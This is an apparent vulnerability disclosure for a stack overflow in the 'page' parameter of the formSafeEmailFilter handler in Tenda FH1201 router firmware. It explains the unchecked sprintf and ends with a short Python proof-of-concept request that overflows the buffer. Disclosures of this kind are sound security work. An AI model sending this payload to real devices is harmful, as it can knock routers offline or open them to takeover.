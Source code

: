 # Tenda FH1201 formSafeEmailFilter
### Overview
vendor: Tenda

product: FH1201

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1201 V1.2.0.14(408) were discovered to contain a stack overflow via the page parameter in the formSafeEmailFilter function.
### Vulnerability details
In function formSafeEmailFilter line 85, it reads in a user-provided parameter `page`, and the variable `v3` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/15.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SafeEmailFilter"

data = {
    "page": "a" * 1000
}

response = requests.get(url, params=data)
print(response.text)
```

![](images/16.png)
